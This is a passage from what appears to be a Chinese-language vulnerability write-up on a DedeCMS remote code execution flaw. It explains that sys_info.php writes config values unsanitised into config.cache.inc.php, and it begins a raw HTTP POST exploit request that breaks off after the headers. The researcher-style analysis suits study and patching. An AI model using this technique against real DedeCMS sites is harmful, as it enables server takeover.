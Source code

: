
这些函数在配置文件中被定义进了disable_function。

这里的RCE是由函数`fwrite`触发的，搜索一下危险函数`fwrite`

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230616222206.png)

以`sys_info.php`为例

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230616222207.png)

根据字符串直接写入配置文件

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230616222209.png)

基本上字段有160个字段，在这里修改配置文件

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230616222210.png)

访问配置文件，路径为

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230616222211.png)

> http://dedecms.org:8016/uploads/data/config.cache.inc.php

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230616222212.png)

完美执行代码，修改配置，所有关于字段的字符串都可修改，构造payload

    
    
    POST /uploads/dede/sys_info.php HTTP/1.1  
    Host: dedecms.org:8016  
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0  
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8  
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
    Accept-Encoding: gzip, deflate  
    Content-Type: application/x-www-form-urlencoded  
    Content-Length: 5277  
    Origin: http://dedecms.org:8016  
    Connection: close  
    Referer: http://dedecms.org:8016/uploads/dede/sys_info.php  
    Cookie: menuitems=1_1%2C2_1%2C3_1; PHPSESSID=2m5nqo8dsir04s541ab9c3f9i4; DedeUserID=1; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=27d26bbe70ce4635; DedeLoginTime=1678950737; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=4a8556e201285aac; _csrf_name_5f9f6663=e8240231360cdb3477e421ac5afe613b; _csrf_name_5f9f66631BH21ANI1AGD297L1FF21LN02BGE1DNG=a77e938eaf09a438; ENV_GOBACK_URL=%2Fuploads%2Fdede%2Flog_list.php  
    Upgrade-Insecure-Requests: 1  
      